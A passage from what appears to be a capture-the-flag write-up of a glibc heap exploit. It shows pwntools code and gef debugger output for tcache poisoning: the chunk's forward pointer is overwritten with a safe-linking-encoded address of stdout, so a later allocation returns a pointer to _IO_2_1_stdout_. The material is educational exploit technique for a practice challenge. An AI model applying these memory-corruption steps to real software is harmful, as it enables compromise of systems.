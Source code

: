 ```console
gef➤  vmmap heap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00005641c77af000 0x00005641c77f2000 0x0000000000000000 rw- [heap]
gef➤  p/x 0x5641c77f2dc0-0x00005641c77af000
$1 = 0x43dc0
```

With this, we can overwrite the forward pointer with the encrypted address of the `stdout`, as follows:

```py
...
libc.address = libc_base
stdout = libc.sym['_IO_2_1_stdout_']
last_addr = heap_base + 0x43dc0
stdout_enc = stdout ^ last_addr >> 12
edit(4, b"A"*0xda8 + p64(0x231) + p64(stdout_enc))
r.interactive()
```

As we can see, we are successful with this, as now the first freed `tcache` seems to be at `stdout` due to the overwritten forward pointer in the last freed `tcache`.

```console
gef➤  heap bins tcache
────────────────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────────────────
Tcachebins[idx=33, size=0x230, count=2] ←  Chunk(addr=0x56445a218dc0, size=0x230, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  
←  Chunk(addr=0x7fde54a045c0, size=0x7fde54a02030, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x7fde54a045c0]
gef➤  x/gx 0x7fde54a045c0
0x7fde54a045c0 <_IO_2_1_stdout_>:       0x00000000fbad2887
```


Next, we can allocate two new chunks with size `0x228`, since while the chunk sizes for the `tcaches` are `0x230`, `8` bytes are needed for the metadata, so the usable size for them is `0x228` and we want our allocation to return these free `tcache` bins.

```py
...
add(6, 0x228, b"A")
add(7, 0x228, b"A")
r.interactive()
```

If we set a breakpoint in the `create` function while running this script and observe the pointer returned for our allocation with the index as `7`, we can see that we are successful, as it returns a pointer to the `stdout`, and we can see that we were even able to write to it.

```console
gef➤  x/gx (void *)&chunks+0x38
0x56295fe2a098 <chunks+56>:     0x00007f1c1b2045c0
gef➤  x/gx 0x00007f1c1b2045c0
0x7f1c1b2045c0 <_IO_2_1_stdout_>:       0x00000000fbad0a41
```
